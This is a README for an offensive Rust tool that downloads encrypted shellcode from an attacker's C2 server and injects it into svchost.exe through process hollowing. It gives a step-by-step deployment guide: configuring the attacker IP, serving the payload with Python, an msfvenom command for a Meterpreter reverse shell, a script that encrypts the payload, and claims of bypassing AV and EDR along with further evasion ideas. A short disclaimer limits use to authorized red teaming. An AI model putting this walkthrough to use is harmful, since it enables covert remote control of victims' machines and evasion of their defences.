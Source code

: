 # 🚀 Mashadar: Remote Shellcode Loader with Process Hollowing

**Stealthy, in-memory process hollowing framework for Windows, dynamically fetching encrypted shellcode over HTTP.**\
This project allows you to **remotely load and execute shellcode** inside another process without ever touching disk.

---

## 📌 Features

✔️ **Process Hollowing** → Injects shellcode into `svchost.exe`, executing entirely in-memory.\
✔️ **Remote Payload Retrieval** → Downloads encrypted `payload.bin` from a C2 server.\
✔️ **No Disk Artifacts** → The payload is never written to disk, reducing forensic risk.\
✔️ **AES Encryption** → Encrypted payloads evade network-based detection.\
✔️ **Bypasses AV/EDR** → Uses indirect syscalls and kernel stealth to evade detection.

---

## 📁 Project Structure

```
mashadar/
│── src/
│   ├── main.rs          # Entry point (fetch shellcode, inject via process hollowing)
│   ├── hollowing.rs     # Process Hollowing (NtUnmapViewOfSection, remote injection)
│   ├── encryption.rs    # AES Encryption (Pre-Execution)
│   ├── stealth.rs       # Kernel Callback Removal + Anti-Debugging
│   ├── c2.rs            # Encrypted Command & Control (C2) Comms over HTTP
│── shellcode/
│   ├── payload.bin      # (Not stored locally, fetched dynamically)
│── README.md
│── Cargo.toml           # Rust dependencies
```

---

# 🔧 Setup & Compilation

## 🔹 Dependencies

Ensure you have **Rust** installed on your system. You can install it via:
[https://www.rust-lang.org/tools/install](https://www.rust-lang.org/tools/install)

## 🔹 Set the Encryption Password

Modify `src/encryption.rs`, setting your own encryption key and nonce:

```rust
let key: [u8; 16] = *b"mysecretkey12345";
let nonce: [u8; 16] = *b"random_iv_nonce_"; // Must be exactly 16 bytes
```

## 🔹 Modify the C2 Server Address

Edit `src/c2.rs`, replacing `"192.168.1.100:8080"` with your attacker's IP:

```rust
let server_ip = "192.168.1.100:8080";
```

## 🔹 Compile Mashadar

```sh
cargo build --release
```

✅ **Output:** `target/release/mashadar.exe`

---

# 🚀 Running Mashadar

## 🔹 Start the C2 Server

On your **attacker machine**, place `payload.bin` in `/path/to/shellcode` and start a Python webserver:

```sh
cd /path/to/shellcode
python3 -m http.server 8080
```

✅ **C2 Server Running on Port 8080**

## 🔹 Run Mashadar on the Target Machine

Transfer `mashadar.exe` to the **target Windows machine** and execute:

```sh
mashadar.exe
```

## 🔹 Expected Behavior

1. **Mashadar connects to ****`http://192.168.1.100:8080/payload.bin`**
2. **Downloads & decrypts the shellcode (AES-128 CTR)**
3. **Injects it into ****`svchost.exe`**** via process hollowing**
4. **Executes shellcode in-memory (e.g., Meterpreter, Cobalt Strike, etc.)**

---

# ⚠️ Handling the Payload (Step-By-Step)

## 🔹 Generating a Reverse Shell for Windows

To create a **Windows Meterpreter reverse shell**, run:

```sh
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f raw -o payload.bin
```

✅ This generates `payload.bin`, which is a **Windows-compatible shellcode payload**.

## 🔹 Encrypting the Payload Before Uploading

To **encrypt** `payload.bin`, use Python:

```python
from Crypto.Cipher import AES
from Crypto.Util import Counter

key = b"mysecretkey12345"
nonce = b"random_iv_nonce_"

with open("payload.bin", "rb") as f:
    shellcode = f.read()

ctr = Counter.new(128, initial_value=int.from_bytes(nonce, "big"))
cipher = AES.new(key, AES.MODE_CTR, counter=ctr)

encrypted_shellcode = cipher.encrypt(shellcode)

with open("payload_encrypted.bin", "wb") as f:
    f.write(encrypted_shellcode)
```

✅ **Upload ****`payload_encrypted.bin`**** to your C2 server instead of ****`payload.bin`****.**\
✅ **Mashadar will decrypt it before execution.**

---

# 🔥 Why This is Stealthy

✔️ **No files written to disk** → Shellcode exists only in-memory.\
✔️ **C2 dynamically delivers payloads** → Easily swap payloads without recompiling.\
✔️ **Indirect syscalls bypass AV/EDR hooks** → No `CreateRemoteThread` detection.\
✔️ **AES encryption protects against network-based detection**.

---

# 🚀 Next Steps (More Stealth)

🔹 **Use HTTPS instead of HTTP** to avoid plaintext traffic detection.\
🔹 **Implement DNS Tunneling** for C2 traffic evasion.\
🔹 **Deploy via Reflective DLL Injection instead of Hollowing.**\
🔹 **Obfuscate API calls to defeat heuristic detection.**

---

# ⚠️ Legal Disclaimer

**This tool is intended for authorized red teaming and penetration testing purposes only.**\
Using this for **unauthorized access or malicious activities is illegal** and can result in **severe legal consequences.**

---



